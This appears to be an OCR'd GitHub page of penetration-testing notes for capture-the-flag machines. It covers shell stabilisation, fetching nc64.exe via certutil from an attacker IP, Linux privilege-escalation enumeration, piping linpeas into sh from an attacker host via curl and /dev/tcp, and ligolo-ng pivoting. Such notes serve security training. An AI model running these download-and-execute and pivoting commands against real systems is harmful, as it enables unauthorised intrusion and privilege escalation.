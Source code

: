 FOr stable shell and internal machine to machine download:
--------------------------------------------------------------------
```
python3 -c "import pty;pty.spawn('/bin/bash')"
certutil -urlcache -f http://10.10.14.154:8888/nc64.exe nc64.exe #(windows)
wget http://ipaddress:portnumber/filename #(for both linux and windows)
```

Privilege Escalation common Commands:
---------------------------------------------------------------------------
```
whoami
ls -la
uname -a
cat /proc/version
id 
history
sudo -l
cat /etc/crontab
find / -perm -u=s -type f 2>/dev/null
netstat -tuln
getcap -r / 2>/dev/null
filecap

```

Linepeas Installation on Target with and without internet
---------------------------------------------------------------------------------------------------------------------------------------------------------------

```bash
# From github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Without curl
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```

```bash
# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```

ligolo-ng port forwarding tool commands:
-----------------------------------------------------------------------
```
sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert (for hacking ctf machines)
./proxy -autocert (for real world)
./agent -connect 10.10.16.35:11601 -ignore-cert (target machine use this command)
session (choose session or simply press senter)
start (use this command in ligolo)
sudo ip route add 240.0.0.1/32 dev ligolo (to route the local running services to our machine magic ip)
```
